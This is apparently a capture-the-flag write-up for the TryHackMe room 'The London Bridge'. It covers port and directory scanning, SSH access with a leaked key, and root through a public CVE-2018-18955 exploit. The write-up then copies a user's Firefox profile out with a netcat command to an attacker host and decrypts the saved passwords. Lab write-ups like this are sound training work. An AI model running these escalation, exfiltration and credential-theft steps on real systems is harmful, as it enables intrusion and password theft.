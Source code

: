 Hi, here is how to successfully complete the machine [The london bridge](https://tryhackme.com/r/room/thelondonbridge)

I start by checking if the machine is available by doing a ping -c 1
<pre><code>> ping -c 1 10.10.3.253
PING 10.10.3.253 (10.10.3.253) 56(84) bytes of data.
64 bytes from 10.10.3.253: icmp_seq=1 ttl=63 time=244 ms

--- 10.10.3.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 243.675/243.675/243.675/0.000 ms</code></pre>

after verifying that the machine is available I start by doing a quick scan of the ports.
<pre><code>> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.3.253 | tee nmap1.txt
[sudo] contraseña para maxi: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-03 11:25 -03
Initiating SYN Stealth Scan at 11:25
Scanning 10.10.3.253 [65535 ports]
Discovered open port 22/tcp on 10.10.3.253
Discovered open port 8080/tcp on 10.10.3.253
Completed SYN Stealth Scan at 11:26, 26.58s elapsed (65535 total ports)
Nmap scan report for 10.10.3.253
Host is up, received user-set (0.69s latency).
Scanned at 2024-10-03 11:25:42 -03 for 26s
Not shown: 54951 filtered tcp ports (no-response), 10582 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.72 seconds
           Raw packets sent: 127155 (5.595MB) | Rcvd: 10641 (425.656KB)</code></pre>

Once I identify which ports are available, I perform a more detailed scan on those ports
<pre><code>> sudo nmap -p22,8080 -sCV -Pn 10.10.3.253 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-03 11:26 -03
Nmap scan report for 10.10.3.253
Host is up (0.39s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
|_  256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
8080/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Explore London
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.46 seconds</code></pre>

if we go to http://{ip}:8080/ we will see the page
![2024-10-03_11-28](https://github.com/user-attachments/assets/1e5abef6-fd72-46c9-af2a-cb5c5d6b4e82)

I decided to search directories with gobuster.
<pre><code>> gobuster dir -u http://10.10.3.253:8080/ -w /home/maxi/Escritorio/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 | tee gobuster.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.3.253:8080/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/maxi/Escritorio/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]
</code></pre>

if we go to /dejaview we will find this
![2024-10-03_12-05](https://github.com/user-attachments/assets/4e0164e9-c7cf-477f-a135-f65246ab4032)

if we use burp suite to see what is sent when we click on view image we will find this

![2024-10-03_13-43](https://github.com/user-attachments/assets/0d3f160f-abb8-41ba-8095-dd27620b40d7)

![2024-10-03_13-45](https://github.com/user-attachments/assets/8e032f11-a555-4c33-8e08-0af46e4fcb38)

we connect via ssh using the id_rsa we got previously in the SSRF
<pre><code>> chmod 600 id_rsa
> ssh -i id_rsa beth@10.10.3.253
> ssh -i id_rsa beth@10.10.52.222
The authenticity of host '10.10.52.222 (10.10.52.222)' can't be established.
ED25519 key fingerprint is SHA256:ytPniu9JUHpepgFs9WjrDo4KrlD74N5VR4L5MCCx3D8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.52.222' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ 
</code></pre>

and using find we look for the file user.txt, which contains the user flag
<pre><code>beth@london:/home$ find / -type f -name 'user.txt' 2>/dev/null                                                      
/home/beth/__pycache__/user.txt</code></pre>


we can see that this machine is using an outdated version of the kernel, which is vulnerable to CVE-2018-18955, is a privilege escalation vulnerability found in Linux systems using the XFS file system. Basically, it lets someone on the system get root access due to a race condition issue during mounting and unmounting. This means it’s a problem that happens when two processes try to access or change shared data at the same time, creating an opening to gain root privileges.

A  [proof-of-concept (PoC)](https://github.com/scheatkode/CVE-2018-18955) script for this vulnerability has been made available on GitHub. The script can be compiled and run to exploit the exploit and gain shell root access

we need to download and send to the target machine the next filesexploit.dbus.sh,php-reverse-shell.phpm rootshell.c, subshell.c and subuid_shell.c
<pre><code>beth@london:~/__pycache__$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux</code></pre>

once done, run the script and you should have root privileges
<pre><code>beth@london:~$ bash exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Oct  3 10:08 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:~# </code></pre>

the root flag
<pre><code>root@london:/root# ls -la
total 52
drwx------  6 root root 4096 Apr 23 22:10 .
drwxr-xr-x 23 root root 4096 Apr  7 01:10 ..
lrwxrwxrwx  1 root root    9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Apr 23 22:08 .cache
-rw-r--r--  1 beth beth 2246 Mar 16  2024 flag.py
-rw-r--r--  1 beth beth 2481 Mar 16  2024 flag.pyc
drwx------  3 root root 4096 Apr 23 22:08 .gnupg
drwxr-xr-x  3 root root 4096 Sep 16  2023 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 16  2024 __pycache__
-rw-rw-r--  1 root root   27 Sep 18  2023 .root.txt
-rw-r--r--  1 root root   66 Mar 10  2024 .selected_editor
-rw-r--r--  1 beth beth  175 Mar 16  2024 test.py
root@london:/root# cat .root.txt
THM{???}</code></pre>

to get the charles password we have to look in “/home/charles” directory “/.mozilla”.

we are going to compress it to send it to our machine
<pre><code>root@london:/home/charles/.mozilla# tar -cvzf /tmp/firefox.tar.gz firefox </code></pre>

<pre><code>nc {ip} 1234 < /tmp/firefox.tar.gz</code></pre>

we decompress it
<pre><code>~> tar -xvzf firefox.tar.gz</code></pre>

<pre><code>sudo chmod -R 777 firefox</code></pre>

We can use the tool [firefox_decrypt](https://github.com/unode/firefox_decrypt/tree/main) to get Charles's saved passwords from Firefox
<pre><code>python3 firefox_decrypt.py firefox/8k3bf3zp.charles/
2024-10-03 16:27:03,316 - WARNING - profile.ini not found in firefox/8k3bf3zp.charles/
2024-10-03 16:27:03,318 - WARNING - Continuing and assuming 'firefox/8k3bf3zp.charles/' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '?????'</code></pre>
